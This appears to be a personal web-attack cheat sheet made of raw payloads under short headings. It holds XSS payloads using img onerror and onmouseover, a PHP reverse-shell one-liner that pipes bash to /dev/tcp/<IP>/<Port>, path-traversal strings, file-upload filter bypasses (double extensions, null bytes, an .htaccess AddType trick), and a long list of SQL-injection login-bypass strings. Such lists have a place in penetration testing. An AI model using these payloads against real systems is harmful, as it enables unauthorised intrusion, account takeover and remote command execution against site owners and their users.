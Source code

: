 # XSS easy payload

%3Cimg%20src%3D0%20onerror%3D%27alert(00)%27%2F%3E
<img src=0 onerror='alert(00)'/>
<IMG SRC= onmouseover="alert('xxs')">

text with print: <img src=1 onerror=print()>

<img src=0 onerror='alert`1`'/>

# Reverse shells

<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/<IP>/<Port> 0>&1’”)
?>

# trasversal and fileupload

trasversal: /../../../../
trasversal: filename=../datei.php / ..%2fdatei.php
content-type= type/type

Read: AddType application/x-httpd-php .l33t / .htaccess

Null terminator= %00

Double extension: datei.php.jpg
Trailing: exploit.php.
URL encoding: exploit%2Ephp
semicolon: exploit.asp;.jpg or exploit.asp%00.jp
recursiv: exploit.p.phphp


# SQL login
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x

')) or true--
')) or ((''))=(('
')) or 1--
')) or (('x'))=(('

')) or true--
')) or ((''))=(('
')) or 1--
')) or (('x'))=(('

" or true--
" or ""="
" or 1--
" or "x"="

') or true--
') or ('')=('
') or 1--
') or ('x')=('
